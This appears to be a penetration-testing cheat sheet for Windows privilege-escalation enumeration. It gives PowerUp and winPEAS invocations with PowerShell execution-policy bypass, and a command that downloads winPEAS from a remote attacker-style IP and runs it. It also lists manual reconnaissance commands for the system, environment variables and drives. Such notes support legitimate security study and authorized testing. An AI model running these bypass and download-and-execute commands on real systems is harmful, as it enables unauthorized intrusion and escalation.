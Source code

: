 # Automatic tools
## From file
```
c:> powershell.exe -nop -exec bypass
PS C:> ./PowerUp.ps1
PS C:> Invoke-AllChecks
```
# From url
```
c:> powershell.exe -nop -exec bypass
PS c:> Import-MOdule ./PowerUp.ps1
PS c:> Invoke-AllChecks
```
# 2. Winpeas
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.14.6/winPEAS64.exe','C:\users\Administrator\Documents\wp.exe')"

c:\users\kosts\Desktop> .\wp.exe
```
# Manual info gathering
## Operating System
```
system info
wmic qfe
```
# Environment variables
```
set
Get-ChildItem Env: | ft Key,Value
```
# Drives
```
net use
wmic logicaldisk get caption, description, providername
wmic logicaldisk get name
wmic logicaldisk get caption
diskpart
list volume
```
